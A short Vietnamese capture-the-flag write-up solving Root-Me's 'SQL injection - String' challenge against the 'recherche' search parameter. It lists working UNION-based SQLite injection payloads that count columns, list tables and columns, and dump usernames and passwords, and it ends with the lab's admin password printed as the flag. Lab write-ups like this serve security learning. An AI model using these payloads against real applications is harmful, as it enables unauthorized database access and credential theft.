 # [SQL injection - String](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)

## Solutions

Có 3 nơi nhận user input:

- `GET /web-serveur/ch19/?action=news&news_id=1`: ở news_id
- `POST /web-serveur/ch19/?action=login`: ở body
- `POST /web-serveur/ch19/?action=recherche`: ở body

Nơi xuất hiện lỗi => `POST /web-serveur/ch19/?action=recherche`:

- Khi nhập body `recherche=a'` thì có lỗi `SQLite3::query(): Unable to prepare statement: 1, ...`

Khai thác:

- `recherche=a' UNION SELECT NULL, NULL --`: tìm được số cột là 2
- `recherche=a' UNION SELECT name, NULL FROM sqlite_master WHERE type ='table' --`: Lấy được tên tables gồm `news` và `users`
- `recherche=a' UNION SELECT name, NULL FROM PRAGMA_TABLE_INFO('users') --`: Lấy được tên columns trong users table
- `recherche=a' UNION SELECT username, password FROM 'users' --`: Lấy được credentials của users trong table, trong đó có credential của admin `admin:c4K04dtIaJsuWdi`

Flag: `c4K04dtIaJsuWdi`

## References

- @quanlh
